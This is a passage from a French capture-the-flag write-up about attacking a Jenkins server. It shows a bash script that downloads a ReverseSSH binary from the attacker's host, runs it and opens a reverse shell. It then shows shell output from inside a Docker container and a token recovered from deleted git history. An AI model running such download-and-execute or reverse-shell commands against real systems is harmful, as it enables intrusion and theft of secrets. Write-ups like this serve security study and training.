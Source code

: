 Le logiciel s'attend à voir un script avec le shebang en première ligne. J'ai opté une nouvelle fois pour ReverseSSH :  

```bash
#!/bin/bash
wget "http://192.168.56.1:8000/reverse-sshx64" -O /tmp/reverse-sshx64
chmod 755 /tmp/reverse-sshx64
/tmp/reverse-sshx64 -v -p 2244 192.168.56.1
```

Une fois connecté on remarque que l'on est dans un Docker (sans quoi ce serait déjà terminé) :  

```plain
root@7b5f8aa938da:/var/jenkins_home/workspace/yolo# id
uid=0(root) gid=0(root) groups=0(root)
root@7b5f8aa938da:/var/jenkins_home/workspace/yolo# ls -a /
.  ..  .dockerenv  bin  boot  dev  docker-java-home  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

This is not the way
-------------------

En listant les fichiers dans */root* je remarque un dossier *.git* comme quoi le dossier est versionné.  

On peut utiliser les commandes Git pour en savoir plus...  

```plain
root@7b5f8aa938da:/root# git log 
commit e7045388b6b30739fd29f577903ab778502c4895
Author: swapneil <swapneil.dash2@gmail.com>
Date:   Tue Jan 28 15:43:53 2020 +0000

    Finally deleted the sensitive data from my box

commit 471a632ca787f2c70e795185050f4da9f2a39432
Author: swapneil <swapneil.dash2@gmail.com>
Date:   Tue Jan 28 15:43:08 2020 +0000

    this is an intersting commit

root@7b5f8aa938da:/root# git show e7045388b6b30739fd29f577903ab778502c4895
commit e7045388b6b30739fd29f577903ab778502c4895
Author: swapneil <swapneil.dash2@gmail.com>
Date:   Tue Jan 28 15:43:53 2020 +0000

    Finally deleted the sensitive data from my box

diff --git a/Git?Scope? b/Git?Scope?
deleted file mode 100644
index eafd2fc..0000000
--- a/Git?Scope?
+++ /dev/null
@@ -1,2 +0,0 @@
-I need to delete this token, so no one can access it!
-512fb73b2108f9c882fe3ff559ef4bc9496f4dc2
```
